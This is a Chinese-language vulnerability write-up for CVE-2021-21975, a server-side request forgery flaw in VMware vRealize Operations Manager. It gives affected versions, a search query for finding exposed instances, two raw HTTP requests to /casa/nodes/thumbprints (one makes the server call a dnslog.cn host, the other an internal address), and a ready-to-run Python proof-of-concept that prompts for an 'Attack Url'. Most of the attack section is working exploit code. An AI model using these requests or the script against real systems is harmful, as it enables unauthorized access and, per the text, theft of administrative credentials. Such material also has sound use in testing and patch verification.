

# VMware vRealize Operations Manager SSRF漏洞 CVE-2021-21975

## 漏洞描述

vRealize Operations Manager API包含服务器端请求伪造。可以通过网络访问vRealize Operations Manager API的恶意攻击者可以执行服务器端请求伪造攻击(SSRF)，以窃取管理凭据。

## 漏洞影响

```
VMware:vRealize_operations_manager: 8.0.0, 8.0.1, 8.3.0, 8.1.0, 8.1.1, 8.2.0, 7.5.0
VMware:cloud_foundation: 4.x 3.x
VMware:vRealize_suite_lifecycle_manager: 8.x
```

## 网络测绘

```
title="vRealize Operations Manager"
```

## 漏洞复现

访问登录页面如下


发送请求包如下

```plain
POST /casa/nodes/thumbprints HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Type: application/json;charset=UTF-8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Content-Length: 24


["eheeyd.dnslog.cn"]
```


```plain
POST /casa/nodes/thumbprints HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Type: application/json;charset=UTF-8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Content-Length: 24


["127.0.0.1:443/ui"]
```


## 漏洞POC

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: VMware vRealize Operations Manager                         \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mDnslog      >>> xxx.dnslog.com                                     \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, v):
    vuln_url = target_url + "/casa/nodes/thumbprints"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/json;charset=UTF-8"
    }
    data = '["{}"]'.format(Dnslog)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=10)
        if response.status_code == 200 :
            print("\033[32m[o] 目标 {} 可能存在SSRF漏洞,请检查 Dnslog 响应 \033[0m".format(target_url, vuln_url))
        else:
            print("\033[31m[x] 目标 {} 不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl    >>> \033[0m"))
    Dnslog = str(input("\033[35mDnslog >>> \033[0m"))
    POC_1(target_url, Dnslog)
```



